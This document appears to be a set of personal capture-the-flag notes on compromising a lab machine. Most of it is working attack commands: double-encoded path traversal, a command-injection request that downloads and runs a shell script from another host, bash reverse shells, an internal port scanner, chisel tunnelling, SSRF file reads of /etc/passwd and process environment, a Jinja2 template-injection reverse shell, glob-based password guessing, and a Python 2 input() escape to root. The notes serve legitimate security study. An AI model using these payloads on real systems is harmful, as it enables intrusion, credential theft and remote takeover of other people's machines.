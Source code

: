 Burp double encoding

http://10.10.165.132/page/%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd

/page/%252fvar/www/html/index.php

bash -c 'bash -i >& /dev/tcp/10.10.160.106/4445 0>&1'

POST /gen.php HTTP/1.1
Host: localhost
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

length=8;sh -c "$(curl -s 10.10.235.24:8000/shell.sh)"


================
for p in 22 80 443 3000 5000 6379 8000 8080 8081 9000 27017 3306 5432; do
  (echo > /dev/tcp/172.18.0.1/$p) >/dev/null 2>&1 && echo "host 172.18.0.1 has $p open"
done

for h in $(seq 1 10); do
  ip=172.18.0.$h
  for p in 22 80 443 3000 5000 6379 8000 8080 8081 9000 27017 3306 5432; do
    (echo > /dev/tcp/$ip/$p) >/dev/null 2>&1 && echo "$ip:$p open"
  done
done


curl -X POST -d 'website_url=file:///etc/passwd' http://172.18.0.1:5000


./chisel server -p 9000 --reverse

chisel client 10.10.199.180:9000 R:5000:172.18.0.1:5000 &

access: http://localhost:5000


===========

curl -X POST -d 'website_url=file:///etc/passwd' http://172.18.0.1:5000
file:///etc/passwd

file:///proc/self/environ  
file:///proc/self/cmdline

file:///home/hansolo/app/app.py

Server-Side Template Injection (SSTI) 

return render_template_string(website_content)

The content from pycurl is directly inserted into the template with %s formatting, then passed to render_template_string(). This means any Jinja2 template code in the fetched content will be executed!

test to confirm {{7*7}}

echo "{{config.__class__.__init__.__globals__['os'].popen('bash -c \"bash -i >& /dev/tcp/10.10.160.106/4444 0>&1\"').read()}}" > shell.html

stabilise the shell:

python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

stty raw -echo; fg



./chisel server -p 9000 --reverse

chisel client 10.10.160.106:9000 R:5000:172.18.0.1:5000

access: http://localhost:5000
===


vault sript:

if [[ $content == $user_input ]]; uses bash pattern matching, not exact string comparison. This means:

* acts as a wildcard that matches ANY content
? matches any single character
[abc] matches any character in brackets

find password length:

? - see if it's 1 character
?? - see if it's 2 characters

[a-z]??????????? (lowercase)
[A-Z]??????????? (uppercase)
[0-9]??????????? (number)

or you can automate it using script

========

app.py

secret = input("Any words you want to add to the password? ")

In Python 2, the input() function is extremely dangerous. It does not read the user's entry as a string; instead, it evaluates the input as Python code. 

This means an attacker can provide any valid Python code at that prompt, and the script will execute it as the user running the script (in this case, root).

Python 2:

input() - Evaluates input as Python code (DANGEROUS)
raw_input() - Returns input as a string (SAFE)

Python 3:

input() - Returns input as a string (SAFE)
raw_input() - Doesn't exist

try:
    length = int(raw_input("Enter the desired length of the password: "))
except NameError:
    length = int(input("Enter the desired length of the password: "))

- Script tries raw_input() first (Python 2 syntax)
- If that fails (Python 3), it falls back to input()
- This means it's designed to work with both Python versions


__import__('os').system('/bin/bash')
